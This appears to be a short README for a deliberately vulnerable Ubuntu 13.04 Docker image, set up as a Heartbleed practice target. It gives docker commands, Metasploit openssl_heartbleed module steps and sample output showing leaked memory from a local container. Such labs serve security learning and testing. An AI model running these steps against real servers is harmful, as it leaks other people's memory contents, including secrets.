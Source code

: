 Quick and dirty Dockerfile to set up Ubuntu 13.04
with Apache and SSL.

13.04 is no longer supported and the version of
openssl is vulnerable to the heartbleed attack.

    docker pull andrewmichaelsmith/docker-heartbleed
    docker run -d andrewmichaelsmith/docker-heartbleed
    docker ps #note conatiner id
    docker inspect <container id> | grep IPAddress #note ip


Then from metasploit

    use auxiliary/scanner/ssl/openssl_heartbleed
    set VERBOSE true
    set RHOSTS <ip>
    exploit

Tada:

    [*] 172.17.0.2:443 - Sending Client Hello...
    [*] 172.17.0.2:443 - Sending Heartbeat...
    [*] 172.17.0.2:443 - Heartbeat response, checking if there is data leaked...
    [+] 172.17.0.2:443 - Heartbeat response with leak
    [*] 172.17.0.2:443 - Printable info leaked: @SE'ag4x1#H f"!98532ED/A
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed




